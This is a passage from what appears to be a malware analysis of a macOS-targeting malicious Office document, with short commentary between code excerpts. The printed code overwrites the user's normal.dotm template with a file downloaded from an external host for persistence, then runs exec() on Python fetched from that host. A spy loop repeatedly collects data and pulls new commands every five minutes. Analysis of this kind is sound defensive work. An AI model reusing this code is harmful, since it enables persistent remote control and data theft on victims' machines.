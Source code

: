 ```python
eHandler: 'if an error is throw exit
 Exit Sub
End Sub
```

<h6>Firstly,this declares the imports, interesting to note that use posixpath package for getting a universal path (with "/") for easily manage theirs paths.</h6>

```python
import os;
import posixpath;
import urllib2;
```
<h6> Once this done, this create the path, enforce to remove the current maldoc and write it again (force but don't check their existence on the disk) for the persistence.</h6>

```python
home_dir = posixpath.expandvars("$HOME");
normal_dotm = home_dir + "/../../../Group Containers/UBF8T346G9.Office/User Content.localized/Templates.localized/normal.dotm"
os.system("rm -f '" + normal_dotm + "'");
fd = os.open(normal_dotm,os.O_CREAT | os.O_RDWR);
data = urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=normal')).read()
os.write(fd, data);
os.close(fd)
```
<h6>Finally, execute the last fileless python script for the recon actions.</h6>

```python
exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v60')).read())
```

<h6>The first two functions of the final python script are for executing a new shell and push the program on an infinite loop.</h6>

```python
import os
import posixpath
import time
import urllib2
import threading
from httplib import *
   
def ExecNewCmd():
 exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=new')).read())

def SpyLoop():
 while True:
  CollectData()
  ExecNewCmd()
  time.sleep(300)
``` 
